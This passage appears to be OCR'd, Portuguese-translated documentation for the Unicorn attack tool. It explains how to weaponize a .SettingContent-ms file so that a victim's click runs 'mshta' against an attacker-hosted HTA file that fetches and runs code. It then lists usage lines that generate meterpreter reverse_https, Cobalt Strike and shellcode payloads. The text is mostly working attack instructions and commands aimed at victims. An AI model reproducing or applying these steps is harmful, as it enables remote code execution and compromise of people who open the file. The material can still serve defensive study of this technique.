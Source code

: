```
o diretório raiz padrão do Unicorn (se estiver usando a geração de arquivo independente) ou sob o hta_attack/
pasta. Você precisará editar o arquivo Standalone_NoASR.SettingContent-ms e substituir:

SUBSTITUA COISAS LEGAIS AQUI

Com:

mshta http://<apache_server_ip_or_dns_name/Launcher.hta.

Em seguida, mova o conteúdo do hta_attack para /var/www/html.

Assim que a vítima clicar no arquivo .SettingContent-ms, o mshta será chamado na máquina da vítima
em seguida, baixe o arquivo Unicorn HTA que possui os recursos de execução de código.

Agradecimentos especiais e elogios a Matt Nelson pela incrível pesquisa

Confira também: https://www.trustedsec.com/2018/06/weaponizing-settingcontent/

Uso:

    python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms
    python unicorn.py <cobalt_strike_file.cs cs ms
    python unicorn.py <patth_to_shellcode.txt>: shellcode ms
    python unicorn.py ms

